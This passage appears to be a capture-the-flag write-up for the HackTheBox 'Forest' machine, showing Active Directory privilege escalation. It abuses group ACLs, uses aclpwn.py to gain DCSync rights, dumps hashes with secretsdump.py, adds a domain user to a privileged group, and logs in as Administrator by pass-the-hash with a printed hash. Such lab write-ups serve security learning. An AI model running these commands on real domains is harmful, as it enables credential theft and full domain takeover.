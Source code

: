 ![/images/forest/blood2.png](/images/forest/blood2.png)

- So svc-alfresco user is in **SERVICE ACCOUNT** group
- and this group is a member of **PRIVILEGED IT ACCOUNT** group which is a member of **ACCOUNT OPERATORS** group.
- And the **ACCOUNT OPERATORS**  group has **GenericALL** permission(allows us to DO ANYTHING TO THIS GROUP GenericAll = Full Control) over **EXCHANGE WINDOWS PERMISSIONS** group
- so svc-alfresco has **GenericALL** permission over **EXCHANGE WINDOWS PERMISSIONS**
- **EXCHANGE WINDOWS PERMISSIONS** Has **WriteDACL** permission over the domain(provides the ability to modify security on an object which can lead to Full Control of the object).

Attack Steps: 

1- **direct from the svc-alfresco to Administrator  (NOTE:This will ruin the box for the other users on HTB)**

so use Iam going to use **aclpwn.py** which will automate:

1- adding the **svc-alfresco** user to **EXCHANGE WINDOWS PERMISSIONS group.**

2- giving the **svc-alfresco** user **DCSync** permission on the domain.

    python3 ../../aclpwn.py/aclpwn.py -f svc-alfresco -ft user -d htb.local -du neo4j -dp admin -sp s3rvice

![/images/forest/acl.png](/images/forest/acl.png)

You must specify your neo4j username/password so aclpwn can grab the objects to select an attack path, then automate the exploitation.

since we got the DCSync permission we can get the hash of everyone (Administrator included).

    python3 secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161

![/images/forest/ADMIN.png](/images/forest/ADMIN.png)

2- So we are going to creat a new user then add this user to **EXCHANGE WINDOWS PERMISSIONS group. (Recommended)**

    net user notevil notevil1 /add /domain
    net group "EXCHANGE WINDOWS PERMISSIONS" notevil /add /domain

we now can run Bloodhound again on the machine and repeat the same steps, then use the new user creds to grab the AD hash using the secretsdump.

    python3 secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161

Evil-winRM allows auth using the hash and username

    evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6

![/images/forest/root.png](/images/forest/root.png)

#### Rooted!

### Extra:
